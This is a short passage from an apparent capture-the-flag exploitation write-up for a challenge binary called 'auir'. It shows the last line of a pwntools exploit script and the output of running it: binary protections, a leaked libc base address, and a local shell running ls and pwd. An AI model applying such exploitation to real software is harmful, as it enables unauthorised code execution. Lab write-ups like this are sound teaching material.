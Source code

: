 ```

# Drop to an interactive shell to use our newly popped shell
target.interactive()
```

When we run it:

```
$	python exploit.py 
[+] Starting local process './auir': pid 5157
[*] '/home/guyinatuxedo/Desktop/elementary/auir'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/guyinatuxedo/Desktop/elementary/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc base: 0x7f5d6d785000
[*] Switching to interactive mode
[*]BREAKING....
$ ls
auir  core  exploit.py    libc-2.23.so
$ pwd
/home/guyinatuxedo/Desktop/elementary
```

Just like that, we popped a shell!